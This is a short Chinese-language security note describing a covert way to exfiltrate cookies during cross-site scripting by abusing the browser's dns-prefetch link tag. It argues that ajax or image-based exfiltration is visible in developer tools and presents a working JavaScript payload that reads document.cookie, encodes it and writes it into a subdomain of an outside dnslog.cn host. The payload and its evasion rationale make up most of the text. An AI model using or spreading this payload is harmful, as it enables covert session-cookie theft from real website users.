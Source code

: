 目前xss传输cookie，一般有两个方式。



一、直接发送ajax请求，到后端程序处理。



二、新建一个img标签，然后把cookie拼接到img的src中。



但是这样在谷歌浏览器下F12，都无可避免的会产生一个网络请求。

那么在浏览器中有没有更隐蔽的数据传输通道，有的！



就是通过dns进行传输，这样不会被HTTP的抓包工具抓到。

但是使用JavaScript是无法直接操作DNS的。



现代化的谷歌浏览器中引入了一个新的标签，用来预加载DNS记录。


```js
<link rel="dns-prefetch" href="//hm.baidu.com">
```


当你浏览网页时，浏览器会加载网页时对网页中的域名进行解析缓存，这样在你单击当前网页链接无需DNS解析，减少浏览者等待时间，提高用户体验。



谷歌的本意是用来优化网页的打开速度，但是同样也可以用来进行少量数据的传输。

```js
        <script>
            cookie = document.cookie;
            cookie=cookie.replace(/=/g,'c1')
            cookie=cookie.replace('/;\s/g','c2')
            // console.log(cookie)
            document.writeln("<link rel=\'dns-prefetch\' href=\'//"+cookie+".xxxxxx.dnslog.cn\'>");
        </script>
```

## Ref
- [浏览器中隐蔽数据传输通道-DNS隧道](https://mp.weixin.qq.com/s/u5HV7umrZABcgVpZ5pn6WQ)
